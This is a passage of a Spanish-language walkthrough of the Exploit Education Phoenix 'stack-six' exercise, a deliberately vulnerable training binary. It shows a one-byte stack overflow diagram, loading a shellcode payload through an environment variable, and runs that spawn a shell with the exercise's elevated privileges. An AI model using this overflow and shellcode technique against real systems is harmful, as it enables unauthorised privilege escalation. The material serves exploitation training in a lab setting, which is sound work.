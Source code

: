 ```csharp
│ (LSB sobrescrito: 1 byte)   │  <- desbordamiento de 161 bytes pisa solo 1 byte
├─────────────────────────────┤
│ Buffer local (128 bytes)    │  <- rbp-0xa0 → rbp-0x1
│   - "Welcome, I am pleased…"│  (34 bytes del mensaje fijo)
│   - + 127 'A' de la variable│  (entrada controlada)
└─────────────────────────────┘
Direcciones (más bajas)
```

Con el exploit ya preparado, el siguiente paso fue cargar nuestro payload en una variable de entorno para que el binario vulnerable lo reciba como entrada.

Para ello, simplemente exportamos la salida del script en la variable

**ExploitEducation**

```csharp
user@phoenix-amd64:~$ export ExploitEducation=$(python3 /tmp/Local_exploit.py)
```

Con la variable de entorno ya configurada con nuestro payload, ejecutamos el binario vulnerable bajo **GDB** para observar el comportamiento del exploit  y podemos ver que el programa se desbordó y ejecuta nuestra shell

- El flujo de ejecución fue redirigido al **NOP sled**, que nos llevó a ejecutar el **shellcode**.
- El shellcode abrió un nuevo **/bin/dash**, otorgándonos una **shell interactiva** bajo el contexto del usuario actual.

```csharp
user@phoenix-amd64:~$ gdb -q /opt/phoenix/amd64/stack-six 
GEF for linux ready, type `gef' to start, `gef config' to configure
71 commands loaded for GDB 8.2.1 using Python engine 3.5
[*] 2 commands could not be loaded, run `gef missing` to know why.
Reading symbols from /opt/phoenix/amd64/stack-six...(no debugging symbols found)...done.
gef➤  r
Starting program: /opt/phoenix/amd64/stack-six 
Welcome to phoenix/stack-six, brought to you by https://exploit.education
Welcome, I am pleased to meet you H1�H������H�����H�	��H1X'H-������S�*e`���s&�W]���s
                                                                                       fSW�d���hNQ^��� ~
	�����������������������������������������������
process 501 is executing new program: /bin/dash
warning: Could not load shared library symbols for linux-vdso.so.1.
Do you need "set solib-search-path" or "set sysroot"?
[Detaching after fork from child process 505]
$ whoami
user
$
```

Finalmente, ejecutamos directamente el binario vulnerable con nuestro payload cargado en la variable de entorno:

```csharp
user@phoenix-amd64:~$ /opt/phoenix/amd64/stack-six 
Welcome to phoenix/stack-six, brought to you by https://exploit.education
Welcome, I am pleased to meet you H1�H������H�����H�	��H1X'H-������S�*e`���s&�W]���s
                                                                                       fSW�d���hNQ^��� ~
	�����������������������������������������������
$ id 
uid=1000(user) gid=1000(user) euid=406(phoenix-amd64-stack-six) egid=406(phoenix-amd64-stack-six) groups=406(phoenix-amd64-stack-six),27(sudo),1000(user)
$ 
```
